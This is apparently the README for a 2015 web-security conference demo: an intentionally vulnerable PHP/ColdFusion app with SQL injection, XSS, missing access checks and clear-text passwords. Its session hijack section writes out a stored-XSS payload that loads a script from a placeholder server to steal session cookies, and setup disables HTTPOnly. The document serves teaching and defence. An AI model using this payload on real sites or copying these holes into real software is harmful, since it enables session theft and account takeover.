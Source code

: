 # Web Application Security 101
## NCDevCon 2015

This project contains a web application full of security holes in order to demonstrate how they can be exploited and how those exploits can be prevented.


Unfortunately, a video recording of the presentation is not available due to a power outage during the conference. I've tried to add more context to the slides but if anything is unclear please feel to reach out to me on Twitter at [@kipthegreat](//twitter.com/kipthegreat) or via my website http://ampersand.space/contact/.

## What Is Included

* Slides from presentation: Web_Application_Security_101.pdf
* MySQL database dump: ncdevcon_security.sql
* ColdFusion version of demo application full of vulnerabilities: ncdevcon_security_cf/
* PHP version of demo application full of vulnerabilities: ncdevcon_security_php/
* Hijack demo application (contains both PHP and ColdFusion implementation): ncdevcon_security_hijack/

The ColdFusion and PHP applications are annotated with comments around all the security vulnerabilities. The two applications are near-exact line-for-line ports of one another.

The application lets users log in to a web application. Users have roles 'user' and/or 'admin'. Users with 'admin' role are allowed to view a list of all users and edit their user details. Users without 'admin' role are only able to edit their own user details. However, through a number of vulnerabilities, normal users would be able to obtain administrator privileges.

## Setup

1. Load the MySQL database (ncdevcon_security.sql).
1. **Suggestion**: If you are running anywhere besides localhost, because this application is full of security holes, create a separate database user that is only able to access the test database, and only able to run select/insert/update/delete.
1. For the ColdFusion version:
  1. Create a datasource named "ncdevcon_security" in ColdFusion Administrator pointing to this database.
  1. To be able to run session hijack demo, **HTTPOnly** option must be disabled (Server Settings / Memory Variables / Session Cookie Settings).  *(This is a security risk, so be sure to change it back when you are done.)*
1. For the PHP version:
  1. Fill in the database credentials in application.php
  1. To be able to run session hijack demo, you need to set `php_flag session.cookie_httponly off` option in php.ini or .htaccess. *(This is a security risk, so be sure to change it back when you are done.)*
1. The ncdevcon_security_hijack folder should be put on a different server for best demostration, but it is not necessary.
1. In ncdevcon_security_hijack project:
  1. Edit hijack2.js, setting absolute url to the hijack_logger.cfm or hijack_logger.php file.

## Security Holes

Some of the security holes you can note:

* Passwords are stored in database in clear text.
* SQL injection vulnerabilities in nearly every query.
* XSS vulnerability in Manage Users screen.
* No permissions check--normal user can access Manage Users screen via URL.
* Edit User screen takes unsecured `userId` URL parameter.

## Using Session Hijack Demo

1. Edit a user's name to: `<img src="//bit.ly/1nHdObD" onload="s=document.createElement('script');s.src='//MYSERVER/ncdevcon_security_hijack/hijack2.js';document.head.appendChild(s);" />`
1. View the manage users page.
1. Check the ncdevcon_security_hijack/hijack_log.txt file. Copy the sample code to the clipboard.
1. Open a new Chrome Incognito browser and go to the index page. (At this point you should not be logged in.)
1. Open browser tools and paste the javascript code and run it.
1. Now refresh page. You should have now hijacked the session.
